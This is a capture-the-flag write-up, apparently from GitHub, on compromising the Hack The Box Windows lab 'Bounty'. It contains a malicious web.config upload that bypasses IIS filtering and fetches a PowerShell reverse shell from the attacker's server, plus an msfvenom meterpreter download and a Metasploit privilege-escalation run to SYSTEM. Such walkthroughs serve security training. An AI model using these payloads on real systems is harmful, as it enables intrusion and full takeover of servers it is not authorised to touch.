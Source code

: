 # Bounty-HTB
Bounty is a Windows machine that is rated as easy. In this box we will see how to bypass file uploade protection.
# Recon
We first start by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop/HTB/Bounty]
└─$ nmap -sC -sV 10.10.10.93                 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-07 19:15 EDT
Nmap scan report for 10.10.10.93
Host is up (0.029s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.60 seconds
```
## ffuf
Fuzzing web dir:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.93/FUZZ     

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.93/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

UploadedFiles           [Status: 301, Size: 156, Words: 9, Lines: 2]
uploadedFiles           [Status: 301, Size: 156, Words: 9, Lines: 2]
```
Then I looked for .aspx files and found one:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.93/FUZZ.aspx

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.93/FUZZ.aspx
 :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

transfer                [Status: 200, Size: 941, Words: 89, Lines: 22]
```
And we find a upload page:

![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Bounty/images/1.png)

# User Flag
So after many tries I found out that I can upload a ```.config``` file. So first get this file: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 . Now Add at the end of it the reverse shell: ```Invoke-PowerShellTcp -Reverse -IPAddress <your_ip_address> -Port 4444```.

Here is the code that I used to get reverse shell:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```
Before uploading the file make sure you are running a python web server: ```python3 -m http.server```. After uploading it go to the file and you should get your reverse shell:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Bounty]
└─$ nc -nlvp 4444           
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.93] 49163
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```
So the User Flag is hidden to show it we need to use option ```-force``` with ```dir```:
```
PS C:\Users\merlin\Desktop> dir -force


    Directory: C:\Users\merlin\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a-hs         5/30/2018  12:22 AM        282 desktop.ini                       
-a-h-         5/30/2018  11:32 PM         32 user.txt                          


PS C:\Users\merlin\Desktop> type user.txt
e29ad898...82f44a2f
```
# Root Flag
First let's upgrade our shell to a meterpreter shell:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Bounty]
└─$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.28 LPORT=5555 -f exe > meterpreter.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201283 bytes
Final size of exe file: 207872 bytes
```
and now download it into the box:
```
PS C:\Users\merlin> (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.28:8000/meterpreter.exe', 'c:\users\merlin\meterpreter.exe')
```
So now if you run it you should get a meterpreter shell:
```
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.14.28:5555 
[*] Meterpreter session 1 opened (10.10.14.28:5555 -> 10.10.10.93:49185) at 2020-09-07 20:26:50 -0400

meterpreter > getuid 
Server username: BOUNTY\merlin
```
So now let's run ```multi/recon/local_exploit_suggester``` and see what we can get.
```
msf5 post(multi/recon/local_exploit_suggester) > exploit 

[*] 10.10.10.93 - Collecting local exploits for x64/windows...
[*] 10.10.10.93 - 17 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed
```
For this box ```exploit/windows/local/ms16_014_wmi_recv_notif``` will be the answer, let's fire it up:
```
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > exploit 

[*] Started reverse TCP handler on 10.10.14.28:7777 
[*] Launching notepad to host the exploit...
[+] Process 1380 launched.
[*] Reflectively injecting the exploit DLL into 1380...
[*] Injecting exploit into 1380...
[*] Exploit injected. Injecting payload into 1380...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (201283 bytes) to 10.10.10.93
[*] Meterpreter session 2 opened (10.10.14.28:7777 -> 10.10.10.93:49186) at 2020-09-07 20:30:22 -0400

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
And we are ```SYSTEM```, get your Root Flag:
```
meterpreter > shell 
Process 2984 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop>type root.txt
type root.txt
c837f7b69...079f9d4f5ea
```
Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
